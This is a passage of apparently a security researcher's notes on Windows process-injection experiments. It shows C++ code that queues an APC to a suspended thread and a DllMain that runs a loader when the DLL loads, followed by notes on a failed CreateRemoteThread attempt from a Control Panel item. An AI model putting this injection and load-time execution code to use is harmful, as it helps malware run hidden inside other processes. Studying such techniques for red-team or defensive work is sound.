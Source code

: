```cpp
	DWORD i = (DWORD)lpBaseAddress;
	DWORD qapcret = QueueUserAPC((PAPCFUNC)lpBaseAddress, pProcessInfo->hThread, NULL);	
	ResumeThread(pProcessInfo->hThread);
	
	return 0;
}

void go(HMODULE hMod) {
	runner();
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved) {
	HANDLE threadHandle;
	DWORD dwThread;

	switch (fdwReason) {
	case DLL_PROCESS_ATTACH:
		threadHandle = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)go, hinstDLL, 0, NULL);
		CloseHandle(threadHandle);
		break;
	case DLL_THREAD_ATTACH:
		break;
	case DLL_THREAD_DETACH:
		break;
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```

## Attempt: CreateRemoteThread

Source was taken from [sevrosecurity](https://sevrosecurity.com/2020/04/08/process-injection-part-1-createremotethread/)

### Assumption

Again, based on the Injection runner "working", a simple migrate *should* work. Less confident after weirdness with `QueueUserApc`.

### Result

Fail, mostly. The DLL worked fine on its own, however in the CPL context there was no sign of the spawned process. Chalked up to racing the CPL process end and loosing.

### Lessons

Need to figure out how to properly debug this. Not sure if the issue is the execution process ending or issues calling `WaitForSingleObject` / `CreateRemoteThread`.

